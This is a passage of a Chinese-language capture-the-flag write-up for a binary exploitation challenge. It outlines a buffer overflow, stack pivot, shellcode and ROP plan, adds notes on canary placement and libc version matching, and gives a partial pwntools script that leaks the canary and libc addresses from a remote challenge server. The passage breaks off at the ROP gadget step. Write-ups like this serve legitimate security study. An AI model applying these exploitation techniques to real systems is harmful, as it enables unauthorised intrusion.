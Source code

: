 
4. 剩下的open / read / write就和lab差不多

:::success
截至目前為止，我們的流程是
1. 設法利用overflow改變n2的數值，使我們能夠輸入更多shell code
2. 先利用第一次的write輸入stack上的重要資訊
3. 因為n2空間還是太小，所以我們需要先擴大能夠寫入的空間，也就是先利用第一次的stack pivot把shellcode寫上去→main+291
4. 執行shellcode後，使rax變大再跳回去main+298
5. 寫入真正的open / read / write讀出flag
:::

:::warning
注意事項:
1. canary
    因為他有開stack protection，所以一定要對好canary在stack上的位置，可以用動態去看，依照這一題的狀況，他是會在rbp+0x40的地方
2. libc version
    這一題因為要leak libc的base address，並且利用ROP gadget達到syscall的目的，所以一定要確定remote server使用的版本是哪一個，光知道大的版本號是有可能會失敗的，因為像我local端到最後有成功，但跑在remote就爛掉了，和@david學長討論過後的結果就是libc version有問題，實際用docker去看彼此的差異就會發現，右邊是我的→22.04.3，而左邊是實際remote的docker開出來的結果→22.04.2，所以我的作法是把docker中的東西拉出來再使用，包含在local端使用以及找gadget
    ![圖片](https://hackmd.io/_uploads/ByiMMYTHa.png)
    ```bash
    $ docker cp /lib/x86_64-linux-gnu/libc.so.6 /mnt/d/Downloads/
    ```
3. IO problem
    這個問題也是很弔詭，會發現我在最後一個send之前還有一個raw_input()，如果拿掉的話在remote一樣會爛掉，這有可能是IO之類的問題，但總之一定要加
:::
## Exploit - BOF + Stack Pivot + ROP

```python
from pwn import *

r = process('./chal', env={"LD_PRELOAD" : "./libc.so.6"})
r = remote('10.113.184.121', 10056)
context.arch = 'amd64'


# Try to trigger length exploit
payload = b'a' * 20
r.sendafter(b"Haaton's name? ", payload)
print(r.recvlines(2))

# Leak stack info
payload = b'HACHAMA'.ljust(0x8, b'\x00')
r.send(payload)
result = r.recv(0x61)
log.info("[-------------Stack Info-------------]")
for i in range(12):
    log.info(hex(u64(result[i * 8:i * 8 + 8])))
log.info("[-------------Stack Info-------------]")

canary = u64(result[7 * 8:7 * 8 + 8])
libc_start_main = u64(result[9 * 8:9 * 8 + 8]) - 0x80
libc_base_addr = libc_start_main - 0x29d90 + 0x80
main_fn_addr = u64(result[11 * 8:11 * 8 + 8])
code_segment_base = main_fn_addr - 0x331

log.success(f'Canary = {hex(canary)}')
log.success(f'libc start main base = {hex(libc_start_main)}')
log.success(f'libc base addr = {hex(libc_base_addr)}')
log.success(f'Main Function Address = {hex(main_fn_addr)}')
log.success(f'Code Segment = {hex(code_segment_base)}')

# Prepare ROP gadget
```